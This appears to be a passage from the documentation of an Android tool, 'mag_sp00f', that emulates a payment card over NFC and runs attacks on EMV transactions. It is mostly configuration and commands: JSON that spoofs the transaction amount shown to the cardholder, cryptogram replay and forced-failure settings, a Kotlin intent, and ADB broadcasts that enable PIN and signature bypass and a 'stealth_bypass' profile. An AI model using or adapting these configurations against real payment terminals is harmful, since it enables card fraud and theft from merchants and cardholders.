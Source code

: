 ```json
            "enabled": false,
            "manipulate_pdol_amount": true,
            "target_amount": 100,
            "spoofed_amount": 10000,
            "manipulate_currency": false
        },
        "advanced_cryptogram": {
            "enabled": false,
            "use_precomputed": true,
            "enable_replay": true,
            "replay_window_hours": 24
        },
        "failed_cryptogram_attack": {
            "enabled": false,
            "failure_type": "AAC_FORCE",
            "terminal_bypass_test": true,
            "corruption_level": "partial"
        }
    }
}
```

### Method 2: Runtime API Configuration

#### Android Intent Configuration
```kotlin
// Configure via Android Intent
val intent = Intent(this, EnhancedHceService::class.java).apply {
    putExtra("attack_profile", "aggressive_manipulation")
    putExtra("attack_config", """
        {
            "amount_manipulation": {
                "enabled": true,
                "target_amount": 2500,
                "spoofed_amount": 25
            }
        }
    """.trimIndent())
}
startService(intent)
```

#### ADB Configuration Commands
```bash
# Enable specific attack via ADB
adb shell am broadcast -a com.mag_sp00f.CONFIGURE_ATTACK \
    --es attack_id "cvm_bypass" \
    --es config '{"bypass_pin": true, "bypass_signature": true}'

# Load attack profile
adb shell am broadcast -a com.mag_sp00f.LOAD_PROFILE \
    --es profile_name "stealth_bypass"

# Get attack status
adb shell am broadcast -a com.mag_sp00f.GET_STATUS
```
